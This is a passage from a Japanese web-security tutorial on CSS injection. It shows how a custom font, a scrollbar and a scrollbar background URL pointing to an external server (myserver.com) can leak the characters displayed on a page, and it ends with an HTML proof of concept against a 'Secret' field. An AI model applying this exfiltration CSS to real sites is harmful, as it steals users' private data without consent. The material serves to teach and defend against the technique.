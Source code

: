 画面に違いが表示されます。

![height](pics/18-02.png)

文字Aが他の文字よりも高さが高いことは明らかです。CSS設定によると、コンテンツの高さがコンテナの高さを超えると、スクロールバーが表示されます。上記のスクリーンショットでは見えないかもしれませんが、下のABCにはスクロールバーがあり、上のDBCにはありません。

さらに、スクロールバーに外部の背景を設定できます。

```css
div::-webkit-scrollbar {
    background: blue;
}

div::-webkit-scrollbar:vertical {
    background: url(https://myserver.com?q=a);
}
```

これは、スクロールバーが表示された場合、サーバーはリクエストを受信することを意味します。スクロールバーが表示されない場合、リクエストは受信されません。

さらに、divに `fa` フォントを適用すると、画面にAが表示された場合、スクロールバーが表示され、サーバーはリクエストを受信します。画面にAが表示されない場合、何も起こりません。

したがって、異なるフォントを繰り返し読み込むと、サーバーは画面に表示されている文字を知ることができます。これは、`unicode-range` を使用して達成したことと同様です。

では、順序の問題をどのように解決するのでしょうか？

まず、divの幅を1文字しか表示できないように縮小し、他の文字が2行目に配置されるようにします。次に、[::first-line](https://developer.mozilla.org/en-US/docs/Web/CSS/::first-line)セレクターを使用して、特に1行目のスタイルを調整します。このように：

```html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "fa";
        src:local('Comic Sans MS');
        font-style:monospace;
        unicode-range: U+41;
      }
      div {
        font-size: 0px;
        height: 40px;
        width: 20px;
        font-family: fa, "Courier New";
        letter-spacing: 0px;
        word-break: break-all;
        overflow-y: auto;
        overflow-x: hidden;
      }

      div::first-line{
        font-size: 30px;
      }

    </style>
    Secret: <div>CBAD</div>
  </body>
```